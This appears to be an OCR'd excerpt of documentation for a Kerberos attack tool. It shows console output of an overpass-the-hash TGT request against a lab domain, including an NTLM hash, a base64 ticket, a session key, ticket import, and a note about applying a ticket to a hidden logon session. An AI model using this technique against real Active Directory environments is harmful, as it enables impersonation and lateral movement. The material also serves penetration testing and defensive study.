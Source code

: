     v1.4.1

    [*] Action: Ask TGT

    [*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\dfm.a'
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

        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

    [*] Action: Import Ticket
    [+] Ticket successfully imported!

    [*] Action: Describe Ticket

    UserName              :  dfm.a
    UserRealm             :  TESTLAB.LOCAL
    ServiceName           :  krbtgt/testlab.local
    ServiceRealm          :  TESTLAB.LOCAL
    StartTime             :  2/25/2019 3:06:07 PM
    EndTime               :  2/25/2019 8:06:07 PM
    RenewTill             :  3/4/2019 3:06:07 PM
    Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType               :  rc4_hmac
    Base64(key)           :  +zY8adXi2NuvkAxl1ohUOA==


Requesting a ticket via aes256_hmac hash for **dfm.a@testlab.local**, starting a new hidden process and applying the ticket to that logon session. **Note: elevation needed!**
